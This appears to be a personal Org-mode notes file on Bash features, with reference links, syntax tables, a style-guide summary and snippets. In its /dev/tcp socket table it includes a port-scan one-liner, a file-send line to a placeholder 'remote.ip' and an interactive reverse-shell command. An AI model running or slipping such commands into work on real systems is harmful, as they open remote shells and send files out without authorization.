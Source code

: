 - wiki https://en.wikipedia.org/wiki/Bash_(Unix_shell)
  - Author: Brian Fox
  - 1989-
- article order of startup https://blog.flowblok.id.au/2013-02/shell-startup-scripts.html

- PS1's
  - ";"
    - allows you to copy multiple commands (also on rc shell)
    - PS1='%(?.%(!.#.;).%F{6}%B;%b%f) '

- https://en.wikipedia.org/wiki/ANSI_escape_code
  https://www.ele.uva.es/~jesus/lpcVT100/term.html
- https://github.com/onceupon/Bash-Oneliner
- https://github.com/dylanaraps/writing-a-tui-in-bash

- article 18 http://ratfactor.com/slackware/pkgblog/bash
- article 24
  https://mtlynch.io/zig-extraneous-build/#my-mental-model-of-bash-pipelines-is-wrong
  https://hackaday.com/2024/03/28/is-your-mental-model-of-bash-pipelines-wrong/
- article https://muhammadraza.me/2023/webscraping-in-bash/
- article https://muhammadraza.me/2023/shell-functions/
- article https://garnix.io/blog/contextual-cli
- https://www.commandlinefu.com/
- https://command-not-found.com/
- https://www.mulle-kybernetik.com/modern-bash-scripting/
- https://github.com/xwmx/bash-boilerplate
- https://github.com/dylanaraps/pure-sh-bible
- https://github.com/dylanaraps/pure-bash-bible
- https://github.com/mrzool/bash-sensible
- https://github.com/joseluisq/awesome-bash-commands
- https://lobste.rs/s/iofste/please_stop_writing_shell_scripts
- Why doesn't set -e (or set -o errexit, or trap ERR) do what I expected?
  http://mywiki.wooledge.org/BashFAQ/105
- shfmt
  https://github.com/mvdan/sh
  (fork?) https://github.com/patrickvane/shfmt

- https://wizardzines.com/comics/bash-debugging/
  https://news.ycombinator.com/item?id=39568728

- LLM
  https://hackaday.com/2023/12/29/using-local-ai-on-the-command-line-to-rename-images-and-more/
  https://justine.lol/oneliners/
  https://gist.github.com/jart/bd2f603aefe6ac8004e6b709223881c0

* Language

- "Destructuring" with *read* https://stackoverflow.com/questions/1952404/linux-bash-multiple-variable-assignment

- exec CMD
  - make cmd replace the current shell, no new process is created

- Process substitution
  - careful of not forgetting an "<" in "cmd < <(cmd2)"
  - "cmd | tee >(cmd2) >(cmd3)" - sends "cmd" output to both "cmd2" and "cmd3" stdin https://tecadmin.net/bash-process-substitution/
  - bash won't wait for cmd2 or cmd3 to finish to exit
    - detailed explaination https://unix.stackexchange.com/questions/403783/the-process-substitution-output-is-out-of-the-order
    - you can hack together a ~work group~ type of thing with ~mkfifo~ https://unix.stackexchange.com/questions/351780/wait-for-bash-process-substitution-subshells

- Brace Expansion
  - support integer zero padding
  - supports a step {FROM..TO..STEP}
  - you can use an "enumeration" on a "for loop" using "for i in {this,that,theother}"

- commands run in a pipeline run at the same time
  https://mtlynch.io/zig-extraneous-build/#my-mental-model-of-bash-pipelines-is-wrong

- << EOF here document
  <<- EOF here document, ignore leading tabs

- https://zwischenzugs.com/2018/10/12/eleven-bash-tips-you-might-want-to-know/
  https://zwischenzugs.com/2020/05/09/some-relatively-obscure-bash-tips/

- Bash does NOT support natively floating point numbers

- CTRL+z = sends a SIGTSTP aka suspends program
- jobs/bg/fg/%N

** Coproc

- commands
  - simple: sequence of words
  - compound: shell constructs

- manual https://www.gnu.org/software/bash/manual/html_node/Coprocesses.html
  - coproc [NAME] cmd [redirections]
    - like "cmd &", runs async in a subshell
    - communication happens over pipes
      - NAME defaults to COPROC if none given
      - stdout in NAME[0]
      - stdin  in NAME[1]
    - "wait"

- example: progress bar https://gist.github.com/drewchapin/f43ab1a10367b1bfa53c55fe612d4245
- 10 https://www.linuxjournal.com/content/bash-co-processes
- 11 https://www.zsh.org/mla/users/2011/msg00095.html
- 18 https://www.linuxjournal.com/content/investigating-some-unexpected-bash-coproc-behavior
- 19 https://copyconstruct.medium.com/bash-coprocess-2092a93ad912
- 21 https://mbuki-mvuki.org/posts/2021-05-30-memoize-commands-or-bash-functions-with-coprocs/
  - a memoization solutions that works
  - classic solutions won't because =command substitution= $() runs in a subshell

** Types

- reserved words
- shell builtin

- array ops
  ${arr[0]}
  ${arr[@]:1:3}  #slicing
  ${arr[@]// /_} # substitute on each element

- string ops
  ${foo:1:10} # slice
  ${#foo}     # length
  ${foo^^}    # uppercase
  ${foo^}     # capitalize
  ${foo/a/b}  # substitute once
  ${foo//a/b} # substitute all

** Redirections

https://tldp.org/LDP/abs/html/io-redirection.html

- append output also to file
  - exec &>> file.txt
  - exec > >(tee file.txt) 2>&1
  - exec 2> >(tee -a file.txt)

- <filename cmd1              - alternative to cat pipe
  <filename >outfile cmd1

- Redirection Operators
  - "|&" https://stackoverflow.com/questions/35917552/what-does-the-syntax-mean-in-shell-language
  - "<>" https://bash.cyberciti.biz/guide/Opening_the_file_descriptors_for_reading_and_writing
  |-------------+------------------------------------------------|
  | ¦&          | shorthand for "2>&1 ¦"                         |
  | [n]<>word   | opens fd n at word, for r/w                    |
  | [n]<&word   | duplicates fd                                  |
  | [n]>&word   | duplicates fd                                  |
  | [n]<&-      | closes fd n (or 0)                             |
  | [n]<&digit- | moves fd digit to n (or 0), closes digit after |
  | [n]>&digit- | moves fd digit to n (or 1)                     |
  |-------------+------------------------------------------------|

- feature: open client socket
  - https://medium.com/@stefanos.kalandaridis/bash-ing-your-network-f7069ab7c5f4
  - /dev/tcp/host/port
    /dev/udp/host/port
  - Examples:
    |---------------+-----------------------------------------------------------------------------------|
    | port scanning | timeout 0.5 echo < /dev/tcp/127.0.0.1/777/ && echo "open" ¦¦ echo "closed"        |
    | read stream   | cat < /dev/tcp/time.nist.gov/13                                                   |
    | receive file  | cat < /dev/tcp/remote.ip/1234 > file.txt                                          |
    | send file     | cat file.txt > /dev/tcp/remote.ip/4321                                            |
    | reverse shell | bash -c 'bash -i >& /dev/tcp/remote.ip/7777 0>&1'                                 |
    |---------------+-----------------------------------------------------------------------------------|
    | http request  | exec 5<>/dev/tcp/www.google.com/80                                                |
    |               | >&5 echo -e "GET / HTTP/1.1\r\nHost: www.google.com\r\nConnection: close\r\n\r\n" |
    |               | <&5 cat                                                                           |
    |---------------+-----------------------------------------------------------------------------------|
    * could have used "here documents" for the GET, using cat and >&5

** Special Parameters

|----+---------------------------|
| $_ | argument of last command  |
| $? | exit code of last command |
| $$ | self PID                  |
| $! | recent bg PID             |
|----+---------------------------|
| $# | number of arguments       |
| $0 | name of the script        |
| $* |                           |
| $@ |                           |
|----+---------------------------|

** select

- Creates an interactive selection menu

#+begin_src bash
  select var in {a..z}; do
    echo $REPLY $var
  done
  # ?# 2
  # 2 b
#+end_src

** getopt(s)

https://en.wikipedia.org/wiki/Getopts
- 1986-
- based on C's getopt

#+begin_src bash
  while getopts ":hf:" arg; do
      case $arg in
          h)  echo "help"; exit 1 ;;
          f)  echo "argument given: $OPTARG" ;;
          :)  echo "Mandatory argument missing for given flag $OPTARG"; exit 1;;
          \?) echo "Unknown flag";  exit 1;;
      esac
  done
  shift $((OPTIND - 1)) # allow positional arguments
#+end_src

** Arithmetic Evaluation $(())

- Equivalent to "let expressions"
  let arg [arg ...]

- "Evaluation is done in fixed-width *integers* with no check for overflow,
   though division by 0 is trapped and flaged as an error."
  - aka NOT floats

- "A shell variable that is null or unset evaluates to 0"

*** Operators
From man
|-----------------------------------+---------------------------------------------|
| id++ id--                         | variable post-increment and  post-decrement |
| ++id --id                         | variable pre-increment and pre-decrement    |
| + -                               | unary minus and plus                        |
| **                                | exponentiation                              |
| * / %                             | multiplication, division, remainder         |
| + -                               | addition, subtraction                       |
|-----------------------------------+---------------------------------------------|
| !                                 | logical negation                            |
| <= >= < >                         | comparison                                  |
| == !=                             | equality and inequality                     |
| &&                                | logical AND                                 |
| ¦¦                                | logical OR                                  |
|-----------------------------------+---------------------------------------------|
| expr?expr:expr                    | conditional operator                        |
| = *= /= %= += -= <<= >>= &= ^= ¦= | assignment                                  |
| expr1 , expr2                     | comma                                       |
|-----------------------------------+---------------------------------------------|
| ~                                 | bitwise negation                            |
| << >>                             | bitwise left and right shifts               |
| &                                 | bitwise AND                                 |
| ^                                 | bitwise exclusive OR                        |
| ¦                                 | bitwise OR                                  |
|-----------------------------------+---------------------------------------------|


* Tutorial: Style https://google.github.io/styleguide/shellguide.html

  - Don’t brace-delimit single character shell specials / positional parameters,
    unless strictly necessary or avoiding deep confusion.
  - Indentation: Indent 2 spaces. No tabs.
  - Comment at the header
    #+begin_src bash
      #!/bin/bash
      #
      # Perform hot backups of Oracle databases.
    #+end_src
  - Redirect errors to STDERR
    #+begin_src bash
      err() {
        echo "[$(date +'%Y-%m-%dT%H:%M:%S%z')]: $*" >&2
      }
    #+end_src
  - Do not put an extension on executables, only on libraries
  - Guidelines
    - When is ok
      * mostly calling other utilities
      * relatively little data manipulation
    - When NOT use
      * Scripts more than 100 lines long
      * Using non-straightfoward control flow logic
      * if performance matters

* Changelog

table of changes https://mywiki.wooledge.org/BashFAQ/061
5.0 discussion https://news.ycombinator.com/item?id=18852523

- 3.0 (2004)
  - regex? =~
- 4.0 (2009)
  - coproc
  - associative array
  - &>> and |&
  - mapfile/readarray
- 4.4 (2016)
  - mapfile/readarray -d
  - ${var@operator} "parameter transformation"
    - U uppercase
    - u capitalize
    - Q single quote
- 5.0 (2019) https://lists.gnu.org/archive/html/bug-bash/2019-01/msg00063.html
  - EPOCHSECONDS / EPOCHREALTIME
  - BASH_ARGV0 (same as $0)
- 5.1 (2020)
  - SRANDOM (32 bit random)

* Codebases

- maze solver https://gist.github.com/xsot/99a8a4304660916455ba2c2c774e623a
- web server https://github.com/dzove855/Bash-web-server
- web framework https://github.com/emasaka/shails
- web framework
  https://github.com/cgsdev0/bash-stack/
  https://bashsta.cc/0-index
- minecraft server
  https://sdomi.pl/weblog/15-witchcraft-minecraft-server-in-bash/
  https://github.com/sdomi/witchcraft
  https://news.ycombinator.com/item?id=30347501

* Snippets

- Example: concatenation
  $ cut -d: -f2 studentlist.txt | xargs printf "%s@example.com"

- Common lines between files
  $ grep -Fxf file1 file2
  $ grep --fixed-strings --line-regexp --file file1 file2

- Not common lines
  $ grep -vFxf file1 file2

#+NAME: scramble string
#+begin_src bash
echo -n "${1}" | fold -w1 | sort -R | xargs -ILETTER echo -n LETTER

echo -n "${1}" | while read -n1 -r letter; do
     echo $letter
done | sort -R | xargs -ILETTER echo -n LETTER
#+end_src

#+begin_src bash
  die() { echo $1 >&2; exit 1; } # some_command || die "oh no!"
#+end_src

#+begin_src bash
  for cmd in sgr0 bold; do
    tput $cmd
    for i in $(seq 0 7); do
      for j in $(seq 0 7); do
        tput setaf $i; tput setab $j; echo -n " $i,$j "
      done
      tput sgr0; echo; tput $cmd
    done
  done
#+end_src

* 14 Video: Introduction to Advanced Bash Usage | James Pannacciulli

@ OSCON 2014
https://www.youtube.com/watch?v=uqHjc7hlqd0

- Bash 3/4
- Return values: 0-255

- indirect expansion
  param="parade"; parade="long"
  ${!param} # long

- list names/variables/functions? matching prefix
  ${!pa*} or ${!pa@}

- Parameter Expansion: Conditionals (24:43)
  (check if variable is unset, empty or non-empty)
|--------------------+--------------+--------------+-------------|
|                    | unset param  | param=""     | param="gnu" |
|--------------------+--------------+--------------+-------------|
| ${param-default}   | default      | -            | gnu         |
| ${param=default}   | name=default | -            | gnu         |
| ${param+alternate} | -            | alternate    | alternate   |
| ${param?error}     | error        | -            | gnu         |
|--------------------+--------------+--------------+-------------|
| empty as unseat    | ..           | ..           | ..          |
|--------------------+--------------+--------------+-------------|
| ${param:-default   | default      | default      | gnu         |
| ${param:=default   | name=default | name=default | gnu         |
| ${param:+alternate | -            | -            | alternate   |
| ${param:?error}    | error        | error        | gnu         |
|--------------------+--------------+--------------+-------------|

- example: brace expansion
  > echo bash{,{d,s},ful{,ly,ness},ing}
  bash bashed bashes bashful bashfully bashfulness bashing
  > man man
  > man{,}
  > echo {1..5}{0,5}% # BASH 3
  10% 15% 20% 25% 30% 35% 40% 45% 50% 55%
  > echo {10..55..5}% # BASH 4
  10% 15% 20% 25% 30% 35% 40% 45% 50% 55%

- You don't need {} to define a function
  #+begin_src bash
    words () # for is the compound command
    for word # with the missing "in" it reads from STDIN
    do
        echo "$word"
    done
  #+end_src

- define and then call, being memtop a custom function defined by the user
  > $ sudo bahs -c "$(declare -f memtop); memtop"
